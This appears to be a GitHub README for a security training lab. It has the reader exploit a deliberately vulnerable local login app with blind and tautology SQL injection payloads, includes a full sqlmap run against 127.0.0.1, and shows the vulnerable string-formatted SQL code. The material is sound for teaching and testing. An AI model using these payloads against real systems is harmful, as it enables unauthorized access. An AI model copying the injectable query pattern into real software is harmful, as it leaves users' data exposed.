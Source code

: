 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/authentication-bypass.svg"></p>

An adversary may gain access to data and functionalities by bypassing the target authentication mechanism

Clone this current repo recursively
```sh
git clone --recurse-submodules https://github.com/qeeqbox/authentication-bypass
```
Run the webapp using Python
```sh
python3 authentication-bypass/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/1.png"></p>
Right-click on the page and open Developer Tools, then Networking (This will be used to determine the time taken for the web application to respond for login)
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/2.png"></p>
Type in the username: ' OR RANDOMBLOB(1000000000/2)-- and password: test, if executed, the web application will be vulnerable to blind SQL injection, and that payload will cause a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/3.png"></p>
The payload was executed successfully and caused a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/4.png"></p>
You be using the blind SQL injection to login as admin, enter ' or '1' = '1' -- for both username and password
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/5.png"></p>
You are logged as admin
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/authentication-bypass/main/content/6.png"></p>


```sh
user@users-Mac-mini vulnerable-web-app % sqlmap http://127.0.0.1:5142/login --data 'username=test&password=test' -p 'username' --dbms=sqlite --level 5 --risk 3 --ignore-code 401 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:20:04 /2025-07-26/

[11:20:04] [INFO] testing connection to the target URL
[11:20:04] [INFO] testing if the target URL content is stable
[11:20:05] [INFO] target URL content is stable
[11:20:05] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:20:05] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[11:20:05] [INFO] testing for SQL injection on POST parameter 'username'
[11:20:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:20:05] [WARNING] reflective value(s) found and filtering out
[11:20:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://127.0.0.1:5142/'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[11:20:05] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[11:20:05] [INFO] testing 'Generic inline queries'
[11:20:05] [INFO] testing 'SQLite inline queries'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[11:20:13] [INFO] POST parameter 'username' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable 
[11:20:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:20:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:20:13] [INFO] target URL appears to be UNION injectable with 7 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:20:13] [INFO] testing 'Generic UNION query (99) - 21 to 40 columns'
[11:20:13] [INFO] testing 'Generic UNION query (99) - 41 to 60 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 61 to 80 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 81 to 100 columns'
[11:20:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[11:20:14] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 304 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6373' OR 4741=4741-- IGcq&password=test

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=test' OR 3859=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- atch&password=test
---
[11:20:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[11:20:14] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 240 times
[11:20:14] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 11:20:14 /2025-07-26/
```

## Code
When user send a username and password in POST request to the login route, the check_creds() is called 
```py
if parsed_url.path == "/login" and "username" in post_request_data and "password" in post_request_data:
    ret = self.check_creds(post_request_data['username'][0],post_request_data['password'][0])
    if isinstance(ret, list) and ret[0] == "valid":
        self.send_content(302, self.gen_cookie(ret[1],60*15)+[('Location', URL)], None)
        self.log_message("%s logged in" % post_request_data['username'][0])
        return
    elif isinstance(ret, list) and ret[0] == "password":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"Password is wrong".encode("utf-8"), b"login"))
        return
    elif isinstance(ret, list) and ret[0] == "username" or isinstance(ret, list) and ret[0] == "error":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"User {post_request_data['username'][0]} doesn't exist".encode("utf-8"), b"login"))
        return
```
The check_creds() function checks if the username and password value are valid credentials; it does not check if either is sanitized or valid
```py
def check_creds(self, username, password):
    try:
        with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
            cursor = connection.cursor()
            ret = cursor.execute("SELECT * FROM users WHERE username='%s'" % (username)).fetchall()
            if ret:
                ret = cursor.execute("SELECT * FROM users WHERE username='%s' AND hash='%s'" % (username,sha512(password.encode("utf-8")+SALT).hexdigest())).fetchone()
                if ret:
                    return ["valid",ret]
                else:
                    return ["password",ret]
            else:
                return ["username", username]
    except Exception as e:
        return ["error",str(e).encode("utf-8")] 
```